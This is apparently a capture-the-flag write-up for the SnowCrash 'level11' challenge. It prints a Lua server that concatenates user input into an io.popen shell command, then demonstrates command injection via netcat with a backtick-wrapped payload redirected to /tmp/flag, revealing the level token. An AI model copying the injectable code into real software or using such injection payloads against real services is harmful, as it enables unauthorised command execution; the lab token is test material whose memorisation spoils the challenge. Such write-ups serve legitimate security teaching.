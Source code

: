 # Level11

## Enumerate

    level11@SnowCrash:~$ ls
	level11.lua
	level11@SnowCrash:~$ lua level11.lua
	lua: level11.lua:3: address already in use
	stack traceback:
	[C]: in function 'assert'
	level11.lua:3: in main chunk
	[C]: ?
	level11@SnowCrash:~$ cat level11.lua
	#!/usr/bin/env lua
	local socket = require("socket")
	local server = assert(socket.bind("127.0.0.1", 5151))

	function hash(pass)
	  prog = io.popen("echo "..pass.." | sha1sum", "r")
	  data = prog:read("*all")
	  prog:close()

	  data = string.sub(data, 1, 40)

	  return data
	end


	while 1 do
	  local client = server:accept()
	  client:send("Password: ")
	  client:settimeout(60)
	  local l, err = client:receive()
	  if not err then
      print("trying " .. l)
      local h = hash(l)

	      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
	          client:send("Erf nope..\n");
	      else
	          client:send("Gz you dumb*\n")
	      end

	end

	  client:close()
	end
## Injection
Now we see that lua server is already up at port 5151, let's try to connect:

	level11@SnowCrash:~$ nc localhost 5151
	Password: lol
	Erf nope..

We have an input, we can try to inject code in this line:

    prog = io.popen("echo "..pass.." | sha1sum", "r")
Let's try it:

	level11@SnowCrash:~$ nc localhost 5151
	Password: `getflag`
	Erf nope..
That's right, the pipe redirects the output so let's try a redirection:

	level11@SnowCrash:~$ nc localhost 5151
	Password: `getflag` > /tmp/flag
	Erf nope..
	level11@SnowCrash:~$ cat /tmp/flag
	Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
And it's done !
